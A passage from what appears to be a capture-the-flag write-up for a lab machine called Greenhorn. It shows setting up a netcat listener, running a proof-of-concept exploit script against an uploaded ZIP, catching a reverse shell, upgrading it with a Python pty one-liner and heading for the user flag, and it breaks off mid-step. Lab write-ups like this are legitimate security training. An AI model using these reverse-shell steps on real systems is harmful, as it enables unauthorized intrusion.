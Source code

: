 Provide all necessary changes and `save`.

Now set up the **Netcat**:

```
nc -lvnp {port you have chosen}
```

![exploit](./Screenshots/greenhornexploit6.png)

Time to execute **exploit**.

```
python3 poc.py
```

When it asks you about `ZIP file path` provide your `.zip` filename.

#### Disclaimer

When something is not working for you, pay attention to the directories form when you execute scripts or create files.

In the **Netcat** tab we have a shell.

![exploit](./Screenshots/greenhornexploit7.png)

You can stabilize your shell by pasting:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### Get the user flag

The `user` flag is in the `/home/junior` path.

If you cannot **cat** the flag, type:
